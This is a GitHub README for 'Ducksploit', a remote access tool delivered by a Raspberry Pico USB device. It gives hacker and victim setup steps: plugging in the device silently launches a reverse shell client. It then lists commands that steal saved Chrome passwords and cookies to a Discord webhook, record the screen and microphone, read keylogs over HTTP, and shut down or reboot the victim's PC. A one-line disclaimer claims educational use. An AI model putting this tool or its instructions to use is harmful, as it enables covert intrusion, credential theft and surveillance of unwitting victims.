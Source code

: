 ![banner](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/banner.png?raw=true "banner")

 # Ducksploit
 ![](https://img.shields.io/badge/Version-1.0.3-red) ![](https://img.shields.io/github/stars/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/github/issues/canarddu38/DUCKSPLOIT) ![](	https://img.shields.io/github/forks/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/github/license/canarddu38/DUCKSPLOIT)
 
 <center>
<img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/pyxbat.png?raw=true" alt="pyxbat" width="300"/>
</center>

## Install Ducksploit

#### Hacker
###### setup raspberry pico
   1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/root.zip
   2. Extract downloaded zip file
   3. Go in PICO SETUP folder
   4. Plugg your raspberry pico on your PC with the BOOTSEL button
   [![picobootbutton](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/picoboot.png?raw=true "picobootbutton")](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/picoboot.png?raw=true "picobootbutton")
   5. Move CircuitPython.uf2 file in the E:\ usb port (port of your pico)
now your raspberry pico gonna leave usb port and reconnec with CIRCUITPY name
   6. Erase all the content of your raspberry pico and copy 'copy' folder into him
   7. Write myip.txt and write your own IP
   8. Now your raspberry pico is full configured , unplugg your pico and done!


###### setup ducksploit commands




   1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/root.zip
   2. Extract downloaded zip file
   3. Go in SERVER folder
   4. If python is not installed, launch 'installpython.bat' or download at https://www.python.org/ftp/python/3.8.0/python-3.8.0.exe
   5. Install python requirements using 'installrequirements.bat' script
   6. launch setup.bat       ###MUST BE RUN AS ADMINISTRATOR###
   7. Ducksploit is now installed on your PC :smile:
   8. Type 'ducksploit' in the cmd
   9. Config your ip using 'ipconfig' (your ip)
   10. Wait victim's connection using 'wait' command
   11. Have fun with ducksploit hacking commands (type help to get commands list)

#### Victim
Just plugg the raspberry pico in your pc (or hacker can do also)
That will start automaticaly the client of the reverse shell

:warning: Ducksploit is made for legal use or educational use :warning:

## Uninstall Ducksploit

   1. type 'ds uninstall' in cmd
   2. Done  :smile:

## SUPPORT
<noscript><a href="https://paypal.me/canarddu38"><img alt="Donate 👍 using Paypal" src="https://www.paypalobjects.com/webstatic/mktg/Logo/pp-logo-200px.png"></a></noscript>

## **Commands**

#### Launch
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| wait    | wait | wait your victim's connection |


#### Account
| Command | Usage    | Result |
| ------------- | ------------- | ------------- |
| info | info | view all your account's infos |

#### Exploits
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| stealpwds | stealpwds (discord webhook url) | steal all saved chrome passwords of your victim and send them into a discord webhook |
| stealcookies  | stealcookies (discord webhook url) | steal all saved chrome cookies of your victim and send them into a discord webhook |
| open  | open (applicationname.exe) | open mensioned application |
| recordscreen  | recordscreen (time in second) | record victim's screen durring amount of time |
| recordmicro  | recordmicro (time in second) | record victim's micro durring amount of time |

## ⚠️ To get your victim's keylogs, go on 'http://{ip of your victim}:8013/keylogger/' ⚠️

#### Mouse
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| mouseclick | mouseclick [left, right, middle] | make the victim click the mensionned button |
| mousemove | mousemove (x) (y) | move the victim's cursor by x and y pixels |
| mousescroll | mousescroll (int between -1000 and 1000) | make the user scroll by int pixels |
| locatemouse | locatemouse | get the victim's cursor current locations |

#### Alert Window
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| msg | msg [-file, -text] (title) (line1) (line2) | create an alertbox and send it on the vitim's pc with a title and 2 lines (if -file set line1 to createfile command content)

#### Troll
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| skull   | skull | spam cmds with skull and crossbones |

#### Mysc
| Command      | Usage       | Result                            |
|--------------|-------------|-----------------------------------|
| uninstall    | uninstall   | uninstall ducksploit              |
| update       | update      | update ducksploit                 |
| credits      | credits     | view ducksploit's credits         |
| help         | help        | getting the list of all commands  |
| shutdown     | shutdown    | make the victim's pc shutdown     |
| reboot       | reboot      | make the victim's pc reboot       |
| closesession | closesesion | make the victim's session close   |
